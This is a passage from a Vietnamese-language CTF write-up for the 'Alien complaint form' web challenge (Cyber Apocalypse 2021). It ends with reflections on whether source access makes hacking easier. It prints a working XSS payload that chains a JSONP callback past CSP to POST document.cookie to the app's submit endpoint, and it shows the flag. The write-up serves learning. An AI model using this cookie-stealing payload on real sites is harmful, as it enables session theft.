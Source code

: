 Vậy payload cuối cùng hoàn chỉnh là

```js
<iframe src="/list?callback=
fetch("/api/submit",{headers: {'Accept':'application/json','Content-Type':'application/json'},method:"POST",body:JSON.stringify({complaint: document.cookie})});alert(1)//"></iframe>
```

Thử nó thôi, submit payload vào form.

![https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.37.47.png](https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.37.47.png)

Đi tới đường dẫn `/api/jsonp`, và lấy flag nào.

![https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.38.16.png](https://manhnv.com/images/posts/ctf/Cyber-Apocalypse-2021/Alien-complaint-form/Screen_Shot_2021-04-24_at_23.38.16.png)

Flag là: CHTB{CSP_4nd_Js0np_d0_n0t_alw4ys_g3t_al0ng}

### Kết luận cuối cùng.

Cuối cùng thì trả lời cho câu hỏi cũng là tiêu đề bài: `Khi có source code của một ứng dụng rồi thì hack có dễ không?`. Thì thật ra câu trả lời cho câu hỏi này cũng khó có thể khẳng định được. Tuy nhiên có thể trả lời theo một số ý như sau:
- Không dễ như một số bạn tưởng, tuy nhiên nó sẽ dễ hơn việc ngồi blackbox
- Nếu không có kiến thức hoặc ít ra là không biết cách tìm kiếm đúng từ khóa hoặc không nhìn được đúng vấn đề thì vẫn khó như thường.

Các bạn có thể đọc thêm bài writeup của mình về giải CTF Cyber Apocalypse 2021, ở đây: https://manhnv.com/categories/ctf/ , nhiều bài bổ ích và thú vị lắm nha.